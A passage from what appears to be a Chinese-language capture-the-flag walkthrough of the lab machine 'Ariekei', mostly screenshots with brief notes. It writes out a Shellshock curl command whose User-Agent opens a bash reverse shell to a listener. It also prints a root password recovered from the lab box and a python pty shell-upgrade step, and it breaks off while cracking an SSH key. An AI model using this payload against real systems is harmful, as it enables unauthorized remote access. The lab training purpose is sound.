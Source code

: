 ![image-20200920095222831]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095222831.png)

在刚才新建隧道产生的shell连接里建立监听

![image-20200920095315906]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095315906.png)

然后在本地利用shellshock。搞一下 解释一下这里。之前有waf，所以直接在网页上做shellshock会被waf拦截，建立隧道后，跨墙了。漏洞可利用

```bash
$  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.24.0.253/1234 0>&1;'" http://localhost:8080/cgi-bin/stats
```

![image-20200920095414187]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095414187.png)

![image-20200920095453512]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095453512.png)

我们之前在 blog-test目录下看到的dockerfile内容，。

我们有blog的root密码了。

```bash
root:Ib3!kTEvYw6*P7s
```

![image-20200920095559242]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095559242.png)

su一下。并不可以，。需要tty

![image-20200920095646147]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095646147.png)

在Dockefile中还可以发现，。安装了python。

使用

python -c 'import pty; pty.spawn\("/bin/bash"\)'

![image-20200920095732271]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095732271.png)

成功，粘贴之前的密码

![image-20200920095845921]({{ site.url }}/assets/Ariekei_65.assets/image-20200920095845921.png)

root

四处看一下，找到新的用户。

![image-20200920100001647]({{ site.url }}/assets/Ariekei_65.assets/image-20200920100001647.png)

得到user

看一下ssh

![image-20200920100059498]({{ site.url }}/assets/Ariekei_65.assets/image-20200920100059498.png)

这种是有加密的私钥。

粘贴解密
